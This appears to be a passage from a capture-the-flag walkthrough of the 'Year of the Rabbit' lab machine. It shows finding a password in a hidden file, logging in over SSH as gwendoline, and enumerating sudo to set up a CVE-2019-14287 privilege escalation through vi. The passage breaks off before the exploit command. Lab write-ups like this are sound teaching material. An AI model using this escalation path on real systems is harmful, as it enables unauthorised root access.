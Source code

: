 ```bash
eli@year-of-the-rabbit:~$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

`ssh -o MACs=hmac-sha2-256 gwendoline@yearoftherabbit.thm -p 22`

```bash
gwendoline@yearoftherabbit.thm's password: 

1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE

gwendoline@year-of-the-rabbit:~$ whoami
gwendoline
gwendoline@year-of-the-rabbit:~$ pwd
/home/gwendoline
gwendoline@year-of-the-rabbit:~$ id
uid=1001(gwendoline) gid=1001(gwendoline) groups=1001(gwendoline)
gwendoline@year-of-the-rabbit:~$ 

```

> **SUDO Vulnerability & Privilege Escalation with VI**
> 

```bash
gwendoline@year-of-the-rabbit:~$ sudo --version
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

**Check for SUDO vulnerability:**

[CVE-2019-14287 - Sudo Vulnerability Cheat Sheet](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

[NVD - CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)

[CVE -
CVE-2019-14287](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)

```bash
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
